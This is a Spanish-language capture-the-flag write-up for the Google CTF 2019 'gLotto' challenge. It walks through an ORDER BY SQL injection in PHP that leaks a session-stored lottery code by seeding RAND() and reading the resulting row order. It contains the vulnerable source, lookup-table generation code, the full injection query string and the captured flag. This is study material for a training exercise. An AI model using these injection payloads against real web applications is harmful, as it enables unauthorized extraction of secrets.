


# Google CTF 2019 - gLotto



## Introducción

El reto consiste en acertar un código y ganar la loteria. Ademas se nos muestran los resultados de los sorteos de los últimos 4 meses.

El funcionamiento de la aplicación es el siguiente:
- Se genera un código aleatorio de 12 caracteres en la primera visita.
- El código se guarda en la variable de sesión `winner`.
- El usuario introduce un código y si es válido se devuelve la flag.
- Si no es válido, nos muestra cual era el código correcto.



## Examinando el código fuente

El reto nos proporciona su [código fuente](gLotto.php) en PHP.

Examinandolo, se observa una vulnerabilidad de Inyección SQL por el uso de la función [*escape_string*](https://www.php.net/manual/es/mysqli.real-escape-string.php) con un parámetro encerrado entre backticks, y no entre comillas simples.

```php
$db->query("SET @lotto = '$winner'");

for ($i = 0; $i < count($tables); $i++)
{
    $order = isset($_GET["order{$i}"]) ? $_GET["order{$i}"] : '';
    if (stripos($order, 'benchmark') !== false) die;
    ${"result$i"} = $db->query("SELECT * FROM {$tables[$i]} " .
        ($order != '' ? "ORDER BY `".$db->escape_string($order)."`" : ""));
    if (!${"result$i"}) die;
}
```

## Inyección en *ORDER BY*

Esta vulnerabilidad nos permite inyectar código SQL después de la instrucción *ORDER BY*, lo que nos limita en el uso de subconsultas con *UNION SELECT*.
Además, tenemos la limitación de que cada vez que visitamos la web se genera un código nuevo, lo que implica que deberemos exfiltrar este código en una única petición.

Por otro lado, existen 4 parámetros de orden distintos, uno para cada tabla, (order0, order1, order2 y order3).

## Analizando el código

Como hemos dicho anteriormente, el código consta de 12 caracteres, los cuales se forman a partir de un charset de 36 caracteres formado por números y letras mayusculas. En total existen 4,6e18 posibles códigos.

## Exfiltración

Para realizar la exfiltración, se ha utilizado la función RAND(i), en la que usaremos el código de semilla. Para ello hay que tener en cuenta el tamaño de cada una de las 4 tablas y el número de permutaciones posibles en la ordenación de sus elementos.

```
MARCH -> 8! =  40320
APRIL -> 9! = 362880
MAY   -> 7! =   5040
JUNE  -> 4! =     24
TOTAL ->    = 1.8e15
```
La cantidad de datos exfiltrados en el mejor de los casos no es suficiente para extraer todo el código, sin embargo, al ser posible realizar fuerza bruta a la aplicación, la probabilidad de acertar es suficiente, aproximadamente 1 entre 5000.

Para simplificar la extracción, se divide el código en 4 trozos de la siguiente forma, *4-4-3-1*, 4 caracteres en la primera y segunda tabla, 3 en la tercera, y 1 en la última.

Para conocer el funcionamiento de la funcion *RAND* he recreado la base de datos en un entorno local y he realizado las cálculos necesarios, además de poder probar localmente todo el proceso de inyección. [Archivo SQL](gLotto.sql)

## Generar tablas

Con el siguiente código se generan las posibles permutaciones y se obtiene el orden asociado a cada una, este orden se representa con un valor numérico.

```php
$charset = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ';

$march = array();
$march['CA5G8VIB6UC9'] = '0';
$march['01VJNN9RHJAC'] = '1';
$march['1WSNL48OLSAJ'] = '2';
$march['UN683EI26G56'] = '3';
$march['YYKCXJKAK3KV'] = '4';
$march['00HE2T21U15H'] = '5';
$march['D5VBHEDB9YGF'] = '6';
$march['I6I8UV5Q64L0'] = '7';

for ($a = 0; $a < $len; $a++) {
for ($b = 0; $b < $len; $b++) {
  $word = $charset[$a].$charset[$b];
  $result = $db->query("SELECT * FROM `march` ORDER BY
    rand((ord(MID('$word',1,1))-47)*44 + (ord(MID('$word',2,1))-47))");
}}

$num = "";
while ($row = $result->fetch_array()) {
  $n = $march[$row[1]];
  $num .= $n;
}
echo "$word - $num\n";
```

## Let's SQLI!

El primer obstaculo es evitar que ordene por la columna `winner`, para ello lo anulamos utilizando `*0`.

El siguiente problema es que el parametro de la función RAND(i) debe ser númerico, y por tanto debemos convertir los caracteres a un valor numérico, de forma simple, cada caracter se convierte en un valor numérico y se multiplica por una potencia de 44, se escoje este valor por ser la distancia entre el caracter `0` y `Z` en la tabla ascii, aunque es posible utilizar cualquier otro.

```
?order0=winner`*0,rand((ord(MID(@lotto,1,1))-47)*85184 + (ord(MID(@lotto,2,1))-47)*1936 + (ord(MID(@lotto,3,1))-47)*44 + (ord(MID(@lotto,4,1))-47))#
&order1=winner`*0,rand((ord(MID(@lotto,5,1))-47)*85184 + (ord(MID(@lotto,6,1))-47)*1936 + (ord(MID(@lotto,7,1))-47)*44 + (ord(MID(@lotto,8,1))-47))#
&order2=winner`*0,rand((ord(MID(@lotto,9,1))-47)*1936 + (ord(MID(@lotto,10,1))-47)*44 + (ord(MID(@lotto,11,1))-47))#
&order3=winner`*0,rand((ord(MID(@lotto,12,1))-47))#
```

Ahora simplemente debemos comparar el resultado obtenido con las tablas generadas anteriormente para conocer los posibles candidatos.

Hacemos una prueba en el entorno local con el código, `1YS7PRY1E7S0`. Observamos como los trozos `1YS7` `PRY1` `E7S` `0` aparecen como posibles candidatos.

```
-- march: 21 --
 1YS7, 33J1, 48R2, 51CJ, 6MHM, 8Z8F, CXQ2, DGUG, EMLA, EY9H, FRTB,
 MTVO, NZMI, OFB3, P3UJ, P5FH, RHL9, V6JU, VFSB, W5WW, YBGP

-- april: 10 --
 4P75, 8D18, CLPJ, GEWU, HKNO, LYQR, OL42, PRY1, Z3Z9, ZYJ5

-- may: 8 --
 635, CDB, E7S, F3B, JUK, XW3, ZPM, ZQ1

-- june: 2 --
 0, 4

```

## Solución

El ultimo paso es automatizar el proceso en un [script](gLotto-solve.py) y ejecutarlo en bucle hasta encontrar un código válido.

```
ZIOKPJSVXMIC
You didn't win :(<br>The winning ticket was Q56J5UT2JKT3
ZZRKNVZKUUGW
You didn't win :(<br>The winning ticket was 43CFNVZK6UJW
YYWQRHNRZ4S1
You won! CTF{3c2ca0d10a5d4bf44bc716d669e074b2}
```
